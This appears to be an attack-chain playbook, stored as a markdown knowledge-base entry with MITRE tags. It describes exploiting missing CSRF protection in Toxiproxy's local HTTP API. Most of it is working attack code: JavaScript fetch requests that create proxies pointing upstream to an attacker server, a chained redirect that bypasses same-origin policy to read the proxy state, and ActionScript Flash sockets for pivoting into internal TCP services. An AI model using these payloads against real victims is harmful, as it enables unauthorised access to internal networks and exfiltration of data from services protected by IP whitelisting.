

---
tags:
  - csrf
  - ssrf
  - toxiproxy
  - tcp-proxy
  - pivot
  - internal-network
type: attack_chain
tools:
  - '[[tools/Homebrew]]'
  - '[[tools/toxiproxy]]'
  - '[[tools/toxiproxy-cli]]'
  - '[[tools/fetch-API]]'
  - '[[tools/Adobe-Flash]]'
  - '[[tools/Adobe-Flex-SDK]]'
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
  - '[[Lateral Movement]]'
  - '[[Collection]]'
commands:
  - '[[commands/brew-update]]'
  - '[[commands/brew-install-toxiproxy]]'
  - '[[commands/brew-services-start-toxiproxy]]'
  - '[[commands/toxiproxy-cli-inspect-csrf]]'
platforms:
  - macOS
  - Web
complexity: medium
procedures:
  - '[[procedures/Install-and-Start-Toxiproxy-Service]]'
  - '[[procedures/CSRF-Creation-of-New-Proxy-via-Fetch-API]]'
  - '[[procedures/Verify-Proxy-Creation-with-Toxiproxy-CLI]]'
  - '[[procedures/Bypass-SOP-to-Read-Toxiproxy-State]]'
  - '[[procedures/Use-Adobe-Flash-for-Arbitrary-TCP-Connections]]'
step_count: 5
techniques:
  - '[[User Execution]]'
  - '[[Exploit Public-Facing Application]]'
  - '[[Connection Proxy]]'
  - '[[Exfiltration Over Command and Control Channel]]'
description: >-
  Multi-stage attack exploiting the lack of CSRF protection in Toxiproxy's HTTP
  API to create and control TCP proxies from a malicious webpage, enabling an
  attacker to pivot into the victim's internal network and exfiltrate data from
  internal services.
skill_level: intermediate
impact_level: high
id: f62f1fa9-58e7-41c9-a489-b7a8eb96cc47
created_at: '2025-12-14T17:27:29.744Z'
updated_at: '2025-12-14T17:27:29.744Z'
verified: false
validated: true
submitted: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
  - '[[Lateral Movement]]'
  - '[[Collection]]'
mitre_techniques:
  - '[[User Execution]]'
  - '[[Exploit Public-Facing Application]]'
  - '[[Connection Proxy]]'
  - '[[Exfiltration Over Command and Control Channel]]'
---
# CSRF Exploitation of Toxiproxy for Internal Network Pivoting

Multi-stage attack chain demonstrating exploitation of Toxiproxy's missing CSRF protections to control TCP proxies via a victim's browser, allowing unauthorized access to internal networks and data exfiltration.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 5 |
| Execution Time | ~10 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Homebrew]]
- [[tools/toxiproxy]]
- [[tools/fetch-API]]
- [[tools/Adobe-Flash]]

### Target Environment

- macOS platform
- Toxiproxy service running on localhost:8474
- Open ports: 8474 (API), 2773/7486/7654 (proxies)
- Victim browser with JavaScript and Flash support

### Initial Access Requirements

- No credentials needed due to unauthenticated API
- Victim must visit attacker's malicious webpage (e.g., via phishing)
- Attacker controls external server for upstream proxying

## Detailed Attack Procedures

### Step 1: Setup Environment
procedure: [[procedures/Install-and-Start-Toxiproxy-Service]]

**Objective**: Install and run Toxiproxy locally to simulate the vulnerable service on the victim's machine.

**Instructions**: Update Homebrew using [[commands/brew-update]]:

```bash
brew update
```

Then install Toxiproxy with [[commands/brew-install-toxiproxy]]:

```bash
brew install toxiproxy
```

Start the service using [[commands/brew-services-start-toxiproxy]]:

```bash
brew services start shopify/shopify/toxiproxy
```

**Expected Output**: Toxiproxy server listening on localhost:8474.

**Success Indicators**:
- Service starts without errors
- API accessible at http://localhost:8474/version

### Step 2: CSRF Proxy Creation
procedure: [[procedures/CSRF-Creation-of-New-Proxy-via-Fetch-API]]

**Objective**: Use a malicious webpage to create a new TCP proxy via cross-origin POST request, pointing upstream to attacker's server.

**Instructions**: From the malicious site, use [[tools/fetch-API]] to POST to http://localhost:8474/proxies with JSON payload: {"name":"csrf","listen":"0.0.0.0:2773","upstream":"attacker-server:9999","enabled":true}.

```javascript
fetch('http://localhost:8474/proxies', {
  method: 'POST',
  mode: 'no-cors',
  body: JSON.stringify({name: 'csrf', listen: '0.0.0.0:2773', upstream: 'attacker-server:9999', enabled: true})
});
```

**Expected Output**: Proxy created silently (no-cors mode).

**Success Indicators**:
- Proxy listens on port 2773
- Traffic routes to attacker server

### Step 3: Verify Creation
procedure: [[procedures/Verify-Proxy-Creation-with-Toxiproxy-CLI]]

**Objective**: Confirm the CSRF-created proxy is active and configured correctly.

**Instructions**: Use [[commands/toxiproxy-cli-inspect-csrf]] to inspect the proxy:

```bash
toxiproxy-cli inspect csrf
```

Alternatively, access http://127.0.0.1:2773/ to test connectivity.

**Expected Output**: Details showing name 'csrf', listen 0.0.0.0:2773, upstream attacker-server:9999, enabled true.

**Success Indicators**:
- Proxy details match payload
- No errors in inspection

### Step 4: SOP Bypass for State Read
procedure: [[procedures/Bypass-SOP-to-Read-Toxiproxy-State]]

**Objective**: Chain CSRF actions to read Toxiproxy configuration by bypassing Same-Origin Policy via proxy redirection.

**Instructions**: CSRF create 'pivot' proxy to attacker:7486, redirect victim to http://127.0.0.1:7486/, then CSRF change upstream to localhost:8474, and use XHR GET to /proxies (now same-origin).

```javascript
// CSRF POST for pivot proxy
fetch('http://localhost:8474/proxies', { method: 'POST', mode: 'no-cors', body: JSON.stringify({name: 'pivot', listen: '127.0.0.1:7486', upstream: 'attacker:7486', enabled: true}) });
// Redirect
window.location = 'http://127.0.0.1:7486/';
// Later CSRF update upstream
fetch('http://localhost:8474/proxies/pivot', { method: 'POST', mode: 'no-cors', body: JSON.stringify({upstream: {url: 'localhost:8474'}}) });
// Read via XHR
fetch('http://127.0.0.1:7486/proxies').then(r => r.json()).then(console.log);
```

**Expected Output**: JSON response with all proxy configurations.

**Success Indicators**:
- State data exfiltrated to console/attacker
- SOP bypassed successfully

### Step 5: TCP Pivoting with Flash
procedure: [[procedures/Use-Adobe-Flash-for-Arbitrary-TCP-Connections]]

**Objective**: Leverage Flash sockets to establish arbitrary TCP connections through CSRF-controlled proxies for internal access.

**Instructions**: Load SWF via <object> tag, CSRF create 'policy' proxy to attacker:7654, connect Flash socket to it for policy caching, then CSRF change upstream to internal host:port, and use socket for TCP read/write.

```html
<object data="exploit.swf" type="application/x-shockwave-flash"></object>
```

In ActionScript (compiled with [[tools/Adobe-Flex-SDK]]):

```actionscript
import flash.net.Socket;
var socket:Socket = new Socket();
socket.connect("127.0.0.1", 7654); // Policy proxy
// After CSRF update, reconnect to internal via proxy
socket.connect("127.0.0.1", 7654);
socket.writeUTFBytes("data");
```

**Expected Output**: TCP data sent/received over proxied connection.

**Success Indicators**:
- Policy file cached
- Internal service responses visible to attacker

## Attack Chain Summary

### Key Achievements

1. Unauthenticated CSRF control of local TCP proxies
2. SOP bypass for exfiltrating proxy state
3. Arbitrary internal TCP access via Flash pivoting
4. Potential data exfiltration from IP-whitelisted services

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[User Execution]]
- [[Exploit Public-Facing Application]]
- [[Connection Proxy]]
- [[Exfiltration Over Command and Control Channel]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]
- [[Lateral Movement]]
- [[Collection]]

---
*Last updated: 2023-10-01T00:00:00Z*
